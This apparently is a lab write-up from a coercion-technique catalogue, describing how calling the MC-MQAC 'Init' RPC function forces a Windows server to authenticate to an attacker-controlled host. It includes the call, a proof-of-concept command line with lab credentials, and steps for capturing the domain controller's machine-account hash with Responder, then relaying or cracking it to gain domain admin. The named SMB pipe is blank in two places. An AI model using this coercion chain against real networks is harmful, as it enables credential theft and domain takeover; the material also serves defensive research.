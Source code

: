 # MC-MQAC - Remote call to Init (opnum 7)

## Summary

 - **Protocol**: [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d)

 - **Protocol UUID**: 0fb15084-af41-11ce-bd2b-204c4f4f5020

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`Init`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol (with uuid `0fb15084-af41-11ce-bd2b-204c4f4f5020` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) and allows to call RPC functions of this protocol. We will then call the remote [`Init`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Init('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Init(
   [in, optional] VARIANT* Machine,
   [in, optional] VARIANT* Pathname,
   [in, optional] VARIANT* FormatName
 );
```

## References

 - Documentation of protocol [MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d

 - Documentation of function `Init`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b